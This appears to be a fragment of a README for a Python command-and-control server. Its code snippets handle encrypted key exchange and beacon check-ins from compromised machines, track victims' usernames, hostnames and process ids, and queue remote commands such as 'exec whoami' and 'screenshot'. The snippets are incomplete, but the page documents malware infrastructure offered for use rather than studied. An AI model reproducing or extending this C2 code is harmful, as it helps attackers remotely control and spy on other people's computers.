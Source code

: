 ### HTTP Request Handling

**C2RequestHandler Class:**
```python
class C2RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # Handles both key exchange and beacon requests
        if self.path == "/key_exchange":
            self._handle_key_exchange(post_data)
        elif self.path == C2_PATH:
            self._handle_c2_request(post_data)
```

## 🔄 Session Management

### Thread-Safe Client Tracking

**Global State Management:**
```python
active_clients = {}
client_keys = {}
client_state_lock = threading.Lock()

# Thread-safe access example
with client_state_lock:
    client_keys[client_ip] = decrypted_key
    active_clients[client_id] = client_data
```

### Client State Structure

**Client Information:**
```python
client_data = {
    'first_seen': datetime.now(),
    'last_seen': datetime.now(),
    'beacon_count': 1,
    'pending_commands': ['exec whoami', 'screenshot']
}
```

## 📊 Beacon Processing

### Beacon Format Parsing

**Beacon Data Structure:**
```python
def parse_beacon_data(beacon_str):
    parts = beacon_str.split('|')
    if parts[0] == 'BEACON':
        return {
            'type': 'beacon',
            'username': parts[1],
            'hostname': parts[2],
            'pid': parts[3],
            'timestamp': datetime.now().isoformat()
        }
```
